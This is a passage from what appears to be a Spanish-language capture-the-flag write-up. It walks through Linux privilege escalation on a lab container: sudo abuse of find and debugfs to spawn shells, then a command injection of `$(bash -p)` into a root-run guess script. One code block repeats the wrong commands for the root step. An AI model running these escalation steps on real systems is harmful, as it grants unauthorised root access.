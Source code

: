 ```bash
# Comando para escalar al usuario: ( rafa )
sudo -u rafa /usr/bin/find . -exec /bin/bash \; -quit
```

###### Usuario `[ rafa ]`:

listamos sus privilegios:
```bash
sudo -l

User rafa may run the following commands on 30541a035246:
    (ruben) NOPASSWD: /usr/sbin/debugfs # Tenemos una via potencial de migrar a este usuario.
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/sbin/debugfs ]`
- Credenciales de usuario: `[ ruben ]:[ ]`

```bash
# Comando para escalar al usuario: ( ruben )
sudo -u ruben /usr/sbin/debugfs # Primero ejecutamos este comando.
debugfs:  !/bin/bash # Despues lanzamos una bash
```

###### Usuario `[ ruben ]`:

listamos sus privilegios:
```bash
sudo -l

User ruben may run the following commands on 30541a035246:
    (ALL) NOPASSWD: /bin/bash /opt/penguin.sh # Tenemso este script sh que podemos explotar para migrar a root
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /opt/penguin.sh ]`
- Credenciales de usuario: `[ root ]:[ ]`

```bash
# Comando para escalar al usuario: ( root )
sudo -u ruben /usr/sbin/debugfs # Primero ejecutamos este comando.
debugfs:  !/bin/bash # Despues lanzamos una bash
```

**Nota** Intentando escapar caracteres vemos que si ejecutamos esto no da problemas y nos retorna **correct**
```bash
ruben@30541a035246:~$ sudo -u root /bin/bash /opt/penguin.sh
Enter guess: test[$(whoami)]+42
```

Ahora tenemos que ver la forma que colar una instruccion que nos permita escalar a **root**: Volvemos a ejecutar el scripit y colamos esta instrucciona
```bash
test[$(bash -p)]+42
```

---